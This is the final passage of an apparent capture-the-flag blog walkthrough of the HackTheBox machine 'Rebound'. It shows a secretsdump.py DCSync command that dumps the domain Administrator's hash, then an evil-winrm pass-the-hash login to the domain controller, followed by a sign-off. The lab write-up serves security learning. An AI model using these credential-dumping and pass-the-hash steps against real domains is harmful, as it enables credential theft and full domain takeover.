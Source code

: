 
In the culmination of the exploit chain, the final step involves executing a DCSync attack to extract and dump the Administrator hash. 


```bash
secretsdump.py -no -k dc01.rebound.htb -just-dc-user administrator -dc-ip 10.10.11.231
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_secret_dump.bmp)


Success! With the Administrator hash successfully obtained, we can now log in to the DC as the Administrator user. 


```bash
evil-winrm -u "Administrator" -H $hash -i "dc01.rebound.htb"
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_admin.bmp)


This concludes the walkthrough on exploiting the HackTheBox machine 'Rebound.' I appreciate everyone taking the time to read this blog and hope you found it insightful. Stay tuned for more exciting adventures in future blogs. Until then, rock on and happy hacking!"
